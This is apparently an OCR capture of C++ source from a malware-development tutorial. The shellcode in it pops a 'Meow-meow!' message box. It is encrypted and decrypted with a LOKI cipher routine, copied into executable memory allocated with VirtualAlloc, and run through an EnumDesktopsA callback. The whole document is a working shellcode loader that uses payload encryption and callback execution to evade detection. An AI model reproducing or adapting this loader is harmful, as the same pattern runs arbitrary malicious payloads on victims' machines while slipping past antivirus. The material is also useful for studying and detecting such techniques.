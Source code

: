 ```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  loki_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  loki_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```
